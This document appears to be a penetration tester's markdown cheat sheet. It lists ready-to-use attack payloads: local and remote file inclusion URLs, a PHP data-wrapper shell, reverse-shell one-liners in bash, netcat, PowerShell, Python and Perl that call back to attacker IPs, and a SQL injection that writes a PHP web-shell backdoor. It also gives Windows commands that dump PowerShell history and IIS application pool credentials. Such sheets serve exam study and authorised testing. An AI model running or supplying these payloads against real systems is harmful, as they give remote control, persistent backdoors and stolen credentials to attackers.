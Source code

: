## File inclusion
- LFI: http://target.com/?page=home --> http://target.com/?page=./../../../../../../../../../etc/passwd%00
- RFI: http://target.com/?page=home --> http://target.com/?page=http://hackerip/evil.txt%00
- With LFI, data wrappers can be used:
  `http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>`  

## Reverse Shells
Linux:
- Pipe /bin/sh back to 10.0.0.1 port 1234:  
  `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f ` 
- More: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  
- `nc -e /bin/sh 10.10.10.10 4443` 
- `bash -i >& /dev/tcp/10.10.10.10/443 0>&1`  

Windows:
- nc.exe on Windows:  
  `nc.exe -e cmd.exe attackerip 1234` 
- PowerShell:  
  `powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` 
- Python:  
  `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`  
- Perl:  
  `perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"$attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'` 

PHP:
- First modify the post request parameters to create a php file which executes the shell:  
  `q=test&lang=en' union select all 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/newbackdoor.php';#`  
  afterwards run the command to spawn a reverse shell:  
  `http://10.11.14.101/newbackdoor.php?cmd=c:\users\offsec\desktop\tools\netcat\nc.exe -nv 10.11.0.90 443 -e cmd.exe` 
- Alternative:  
  `<?php echo system($_GET["cmd"]);?>` 

## Info Gathering 
### Windows
- PS History: `cat (Get-PSReadlineOption).HistorySavePath`  
- `type C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`  
- `Get-ScheduledTask| % { $_.Actions}` 
- `schtasks /query /v /fo LIST`  
- IIS App Pool Creds: `(ls IIS:\AppPools | Get-ItemProperty -Include ProcessModel).ProcessModel | select UserName,Password`  
- psexec.py Login with account:  
`psexec.py administrator@10.10.10.10`  
